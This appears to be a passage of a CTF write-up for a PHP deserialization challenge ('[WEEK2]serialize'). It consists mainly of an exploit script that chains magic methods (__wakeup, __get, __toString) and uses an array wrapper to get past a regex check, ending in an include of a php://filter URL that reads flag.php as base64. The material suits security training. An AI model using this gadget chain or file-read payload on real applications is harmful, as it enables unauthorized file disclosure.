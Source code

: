 pattern=.*

![img](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/wps24.jpg)

### [WEEK2]serialize

```
<?php
class misca{
  public $gao;
  public $fei;
  public $a;
  public function __get($key){
    $this->miaomiao();
    $this->gao=$this->fei;
    die($this->a);
  }
  public function miaomiao(){
    $this->a='Mikey Mouse~';
  }
}
class musca {
  public $ding;
  public $dong;
  public function __wakeup(){
    return $this->ding->dong;
  }
}
class milaoshu{
  public $v;
  public function __tostring(){
    echo"misca~musca~milaoshu~~~";
    include($this->v);
  }
}
function check($data){
  if(preg_match('/^O:\d+/',$data)){
    die("you should think harder!");
  }
  else return $data;
}
$MI = new misca();
$MU = new musca();
$MIL = new milaoshu();
$MIL -> v = 'php://filter/read=convert.base64-encode/resource=flag.php';
$MI -> a =&$MI -> gao;
$MI -> gao ='1';
$MI -> fei =$MIL;
$MU -> ding = $MI;
$MU -> dong = 'Arcueid';
echo serialize(array($MU));
```
